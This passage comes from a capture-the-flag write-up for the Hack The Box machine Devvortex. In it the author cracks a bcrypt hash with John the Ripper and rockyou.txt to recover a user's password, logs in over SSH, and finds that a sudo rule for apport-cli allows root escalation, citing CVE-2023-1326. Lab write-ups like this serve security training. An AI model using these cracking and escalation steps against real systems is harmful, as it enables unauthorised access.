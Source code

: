 "$$2a\$"

 is a good  indicator of a  bcrypt format, so let’s see if logan user has a weak password and then we are able to crack it.

I will use john and rockyou.txt as dictionary

```bash 
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt mysql_credentials.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:41 DONE (2024-01-19 23:43) 0.02396g/s 33.65p/s 33.65c/s 33.65C/s leelee..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

```bash
Logan's password is: tequieromucho
```


**let’s log in devvortex**

```bash
ssh -l logan htb   
logan@htb's password: 

Last login: Fri Jan 19 23:05:18 2024 from 10.10.14.243
-bash-5.0$ whoami
logan
```

## PRIV ESCALATION FROM LOGAN TO ROOT


As usual, I will start with some basic enumeration command like sudo -l

 ![](https://alternume0.github.io/assets/img/devvortex_priv02.jpg)



And we can see that logan user is able to run /usr/bin/apport-cli as root, so let’s research on this command, because it could lead to achieve a root shell


**What is apport-cli**

apport automatically collects data from crashed processes and compiles a problem report in /var/crash/. This is a command line frontend for reporting those crashes to the developers

On internet we found that apport-cli could allow to priv escalation.

Further information: 
 [ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1326]( https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1326){:target="_blank"}
